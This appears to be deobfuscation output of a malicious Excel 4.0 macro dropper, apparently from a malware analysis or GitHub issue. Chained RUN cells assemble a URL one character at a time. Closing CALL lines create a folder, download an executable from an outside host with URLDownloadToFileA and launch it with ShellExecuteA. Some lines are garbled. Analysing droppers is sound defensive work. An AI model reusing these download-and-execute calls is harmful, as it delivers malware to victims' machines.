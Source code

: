 CELL:GV1760    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!IA688)
CELL:IA688     , FullEvaluation      , S
CELL:IA689     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!CH1344)
CELL:CH1344    , FullEvaluation      , P
CELL:CH1345    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AW916)
CELL:AW916     , FullEvaluation      , M
CELL:AW917     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!HU902)
CELL:HU902     , FullEvaluation      , /
CELL:HU903     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FG1122)
CELL:FG1122    , FullEvaluation      , i
CELL:FG1123    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!ED505)
CELL:ED505     , FullEvaluation      , x
CELL:ED506     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FY531)
CELL:FY531     , FullEvaluation      , c
CELL:FY532     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!C1912)
CELL:C1912     , FullEvaluation      , x
CELL:C1913     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EX1159)
CELL:EX1159    , FullEvaluation      , m
CELL:EX1160    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!EA1255)
CELL:EA1255    , FullEvaluation      , z
CELL:EA1256    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!CB1863)
CELL:CB1863    , FullEvaluation      , c
CELL:CB1864    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!DH170)
CELL:DH170     , FullEvaluation      , v
CELL:DH171     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!Z1984)
CELL:Z1984     , FullEvaluation      , q
CELL:Z1985     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!ID739)
CELL:ID739     , FullEvaluation      , i
CELL:ID740     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!FR566)
CELL:FR566     , FullEvaluation      , .
CELL:FR567     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!AO836)
CELL:AO836     , FullEvaluation      , e
CELL:AO837     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!CV963)
CELL:CV963     , FullEvaluation      , x
CELL:CV964     , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!BL1005)
CELL:BL1005    , FullEvaluation      , RUN(SOCWNEScLLxkLhtJp!DW1337)
CELL:DW1337    , FullEvaluation      , CALL("Kernel32","CreateDirectoryA","JCJ","C:\jhbtqNj\IOKVYnJ",0)
CELL:DW1338    , FullEvaluation      , CALL("URLMON","URLDownloadToFileA","JJCCJJ",0,"http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exRUN(SOCWNEScLLxkLhtJp!DW1337)","C:\jhbtqNj\IOKVYnJ\KUdYCRk.exe",0,0)
CELL:DW1339    , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCCJ",0,"Open","C:\jhbtqNj\IOKVYnJ\KUdYCRk.exe",,0,0)
CELL:DW1340    , End                 , HALT()

```
</details>

```
CELL:DW1338    , FullEvaluation      , CALL("URLMON","URLDownloadToFileA","JJCCJJ",0,"http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exRUN(SOCWNEScLLxkLhtJp!DW1337)","C:\jhbtqNj\IOKVYnJ\KUdYCRk.exe",0,0)
CELL:DW1339    , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCCJ",0,"Open","C:\jhbtqNj\IOKVYnJ\KUdYCRk.exe",,0,0)
